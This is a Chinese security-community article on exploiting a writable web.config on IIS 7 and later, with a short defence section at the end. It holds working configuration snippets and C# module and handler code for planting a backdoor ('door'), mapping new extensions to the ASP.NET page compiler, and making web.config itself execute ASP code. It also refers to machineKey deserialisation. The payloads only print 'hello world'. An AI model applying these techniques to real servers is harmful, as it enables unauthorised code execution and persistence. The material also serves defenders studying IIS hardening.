






# IIS下web.config利用-先知社区

> **来源**: https://xz.aliyun.com/news/17574  
> **文章ID**: 17574

---

# IIS下web.config利用

当遇到可以覆盖/上传web.config时，可参考以下方式利用(均假设IIS>=7)

# IIS配置加载流程


除了网站根目录外，子目录也可以有自己的web.config，但子目录有诸多限制



# 根目录web.config利用

## 加载托管moudlue

限制：

1. 必须为集成模式
2. 可上传dll到bin目录

注意:modules不能在子目录的web.config配置

```
<configuration>
    <system.webServer>
      <modules>
         <add name="door" type="IIS.Module"/>
      </modules>
    </system.webServer>
</configuration>
```

以下代码编译为dll上传到bin目录

```
using System;
using System.Collections.Generic;
using System.Text;
using System.Web;

namespace IIS
{
    class Module : IHttpModule
    {
        public void Dispose()
        {
        }

        public void Init(HttpApplication context)
        {
            context.BeginRequest += Context_BeginRequest;
        }
        private void Context_BeginRequest(object sender, EventArgs e)
        {
            HttpApplication httpApplication = (HttpApplication)sender;
            HttpContext context = httpApplication.Context;
            if (context.Request.Path.Contains("door"))
            {
                context.Response.Write("hello world");
                context.Response.End();
                context.Response.Close();
                httpApplication.CompleteRequest();
                return;
            }
        }
    }
}
```



## 映射扩展名为aspx

注意:buildProviders不能在子目录的web.config配置

```
<configuration>
    <system.web>
        <compilation>
            <buildProviders>
                <add extension=".atxt" type="System.Web.Compilation.PageBuildProvider" />
            </buildProviders>
        </compilation>
    </system.web>
    <system.webServer>
        <handlers>
            <add name="SampleHandler" path="*.atxt" verb="*" type="System.Web.UI.PageHandlerFactory"/>
        </handlers>
    </system.webServer>
</configuration>
```



## web.config作为aspx

注意:buildProviders不能在子目录的web.config配置

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers accessPolicy="Read, Script, Write">
            <add name="web_config" path="web.config" verb="*" type="System.Web.UI.PageHandlerFactory" modules="ManagedPipelineHandler" requireAccess="Script" preCondition="integratedMode" /> 
            <add name="web_config-Classic" path="web.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\Microsoft.NET\Framework64\v4.0.30319\aspnet_isapi.dll" requireAccess="Script" preCondition="classicMode,runtimeVersionv4.0,bitness64" /> 
        </handlers>
        <security>
            <requestFiltering>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
            </requestFiltering>
        </security>
        <validation validateIntegratedModeConfiguration="false" /> 
    </system.webServer>
    <system.web>
        <compilation defaultLanguage="vb">
            <buildProviders> <add extension=".config" type="System.Web.Compilation.PageBuildProvider" /> </buildProviders>
        </compilation>
        <httpHandlers> 
            <add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*" /> 
        </httpHandlers> 
    </system.web>
</configuration>
<!-- ASP.NET code comes here! It should not include HTML comment closing tag and double dashes! 
<%
Response.write("-"&"->")
Response.write("hello world")
Response.write("<!-"&"-")
%>
-->
```




<https://soroush.me/blog/tag/web-config>

## machineKey反序列化

通过web.config设置machineKey，通过反系列化执行任意代码

<https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/>

## ~~本地moudlue~~

根据微软文档，本地模块需要先注册才能使用

注册后配置保存在`%windir%\system32\inetsrv\config\applicationhost.config`



<https://learn.microsoft.com/en-us/iis/get-started/introduction-to-iis/iis-modules-overview>

# 子目录web.config利用

## 加载托管handlers

限制：

1. 要上传dll到根目录下bin目录
2. 必须为集成模式
3. web.config可上传任意目录，比如二级目录

```
<configuration>  
    <system.webServer>
        <handlers>
            <add name="h" type="IIS.Handle" verb="*" path="h"/>
        </handlers>
    </system.webServer>
</configuration>
```

以下代码编译为dll上传到bin目录

```
using System.Web;

namespace IIS
{
    public class Handle : IHttpHandler
    {
        public bool IsReusable => true;

        public void ProcessRequest(HttpContext context)
        {
            context.Response.Write("hello world");
            context.Response.End();
            context.Response.Close();
        }
    }
}
```



## ~~ISAPI Handlers~~

ISAPI处理器需要先注册/允许才会生效，这种方法不奏效

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.txt" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\xxx.dll" resourceType="Unspecified" requireAccess="None" preCondition="bitness64" />        
      </handlers>
   </system.webServer>
</configuration>
```

# 防御

最主要还是通过文件权限防止修改/创建web.config，以及bin目录

## allowSubDirConfig

通过allowSubDirConfig配置不允许子目录配置

<https://techcommunity.microsoft.com/blog/iis-support-blog/how-to-prevent-web-config-files-to-be-overwritten-by-config-files-in-application/297627>

## lockItem

通过lockItem="true"锁定配置，不允许子目录覆盖配置

<https://soroush.me/blog/tag/web-config/>

​

​
